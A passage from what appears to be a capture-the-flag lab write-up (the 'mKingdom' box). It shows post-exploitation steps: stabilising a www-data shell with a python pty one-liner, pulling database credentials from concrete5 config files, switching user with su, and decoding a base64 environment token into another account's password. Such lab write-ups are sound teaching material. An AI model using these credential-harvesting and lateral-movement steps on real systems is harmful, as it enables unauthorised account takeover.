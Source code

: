 ```zsh
www-data
```
## Jump to User (`toad`)
First, stabilise the shell
```zsh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
### Application Secrets
In typical www-data shell fashion, let's first look for any application secrets e.g. database credentials, environment variables, etc, which may help us move to the user account.

There are two `database.php` files:
```
/var/www/html/app/castle/application/config/database.php
/var/www/html/app/castle/concrete/config/database.php
```
Inspecting each of these reveal some SQL credentials for the `toad` account.
```php
// /var/www/html/app/castle/application/config/database.php
return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => '[REDACTED]',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
```
Now, we can log into the `toad` account using the password:
```zsh
su toad
...
$ whoami
toad
```
## Lateral Movement (`mario` user)
Following a LOT of enumeration of the system, I inspected the environment variables of the `toad` user account and identified the following entry:
```
PWD_token=aW....g==
```
This is clearly base64 encoded (`==` at the end), and when decoded we get a password-looking string. This is the password for the `mario` account.
